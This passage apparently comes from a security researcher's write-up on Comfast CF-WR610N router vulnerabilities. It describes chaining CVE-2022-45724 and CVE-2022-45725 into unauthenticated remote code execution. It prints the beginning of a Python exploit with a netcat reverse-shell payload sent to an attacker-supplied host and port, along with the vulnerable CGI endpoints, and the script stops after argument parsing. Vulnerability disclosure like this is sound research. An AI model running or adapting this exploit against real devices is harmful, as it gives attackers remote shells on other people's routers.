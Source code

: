 <p align="center">
    <img src="/assets/images/comfast_cf_wr610n_vulnerabilities/rce_request.png" alt="drawing" width="600"/>
</p>


And got a shell
<p align="center">
    <img src="/assets/images/comfast_cf_wr610n_vulnerabilities/rce_shell.png" alt="drawing" width="600"/>
</p>

## Unauthenticated exploit

It is possible to combine and take advantage of both CVE-2022-45724 and CVE-2022-45725 to achieve an unauthenticated RCE (as long as there is a user logged in, in order to trigger the bug in the authentication framework)

``` python

import argparse
import requests
from rich.console import Console
import json

console = Console()
PAYLOAD = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc %s %s >/tmp/f"
proto = "http://"

SESSION_ID_URI="/cgi-bin/system-status?method=GET&section=language"
EXPLOIT_URI="/cgi-bin/mbox-config?method=SET&section=arp_bind_list"


if __name__ == "__main__":

    arg_parser = argparse.ArgumentParser(description='Comfast CF-WR6110N Unauthenticated RCE')
    arg_parser.add_argument('-rh', dest='host', default="192.168.10.1", help='Host. (Default is 192.168.10.1)')
    arg_parser.add_argument('-s', dest="secure", action='store_true', default=False, help='For HTTPS usage instead of HTTP. Default is HTTP')
    arg_parser.add_argument('-lh', dest="attacker_host", required=True, help='Attacker host address')
    arg_parser.add_argument('-lp', dest="attacker_port", required=True, help='Attacker host port')

```